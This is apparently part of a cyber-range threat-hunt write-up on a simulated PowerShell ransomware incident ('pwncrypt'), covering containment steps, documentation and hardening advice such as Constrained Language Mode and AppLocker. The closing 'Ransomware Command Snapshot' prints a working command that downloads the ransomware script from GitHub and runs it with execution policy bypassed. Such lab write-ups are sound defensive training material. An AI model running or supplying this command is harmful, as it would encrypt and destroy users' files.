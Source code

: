 
#### ✅ Actions Taken:

- **Isolated infected host** (`zero-day`) to prevent lateral movement.
- **Terminated malicious PowerShell process** running `pwncrypt.ps1`.
- **Removed ransomware script** from `C:\ProgramData`.
- **Searched the environment** for indicators of compromise (IOCs), such as `.pwncrypt` extensions and suspicious PowerShell usage.
- **Alerted the Incident Response (IR) team** and shared related MITRE ATT&CK mappings.
- **Recovered impacted files** from backups.

---

### 6. 📝 Documentation

**🎯 Goal:**  
Document findings and outcomes for future reference and process improvement.


#### 🗂️ Summary of Actions:

- **Confirmed ransomware execution** via PowerShell using IOC-driven analysis.
- **Documented TTPs** and mapped them to relevant **MITRE ATT&CK techniques**.
- **Logged all KQL queries** and recorded actions in the **incident timeline**.

---

### 7. 🔄 Improvement

**🎯 Goal:**  
Refine security strategy and improve future hunts.


#### Prevention Recommendations

**PowerShell Hardening**
- Enforce **Constrained Language Mode**.
- Enable **Script Block Logging** and **Module Logging**.

**Execution Control**
- Implement **AppLocker** or **Windows Defender Application Control (WDAC)**.
- Restrict **write/execute permissions** to `C:\ProgramData`.

**User Awareness**
- Launch **security training** to mitigate phishing and unsafe script execution.

**Behavioral Detection**
- Create alerts for:
  - File renames with **unusual extensions** (e.g., `.pwncrypt`).
  - PowerShell executions using `-ExecutionPolicy Bypass`.
 
---

### **Ransomware Command Snapshot**  
⚠️ Example of how the ransomware script was executed:  
```powershell
Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/pwncrypt.ps1' -OutFile 'C:\programdata\pwncrypt.ps1';cmd /c powershell.exe -ExecutionPolicy Bypass -File C:\programdata\pwncrypt.ps1
```
